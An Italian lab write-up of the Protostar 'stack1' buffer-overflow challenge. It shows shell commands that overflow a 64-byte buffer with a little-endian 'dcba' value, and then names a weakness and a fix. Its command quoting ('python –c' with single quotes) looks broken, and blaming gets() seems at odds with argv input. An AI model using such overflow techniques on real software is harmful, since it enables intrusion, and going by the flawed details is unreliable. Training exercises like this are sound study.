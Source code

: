 # Protostar_stack 1 - Buffer overflow

## Obiettivo della sfida
Impostare la variabile _modified_ al valore **0x61626364** a tempo di esecuzione

## Strategia di attacco
Mandiamo in escuzione il **stack1**
```bash
> cd /opt/protostar/bin
> ./stack1 abc
# stampa errore
Try again, you got 0x00000000
```
### Cosa fare
Riempire _buffer_ con 64 caratteri e alla fine appendere i 4 corrispondenti a 0x61626364 essi sono la **"abcd"**

## Come sfruttare le vulnerabilità
Proviamo ad eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "abcd"'' 
# stampa errore
Try again, you got 0x64636261
```
Anche se l'input è stato inserito correttamente appare a rovesci, questo avviene perchè l'architettura Intel è **little endian**!
### Istruzioni da eseguire
```bash
> /opt/protostar/bin/stack1 'python –c 'print "a" * 64 + "dcba"'' 
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`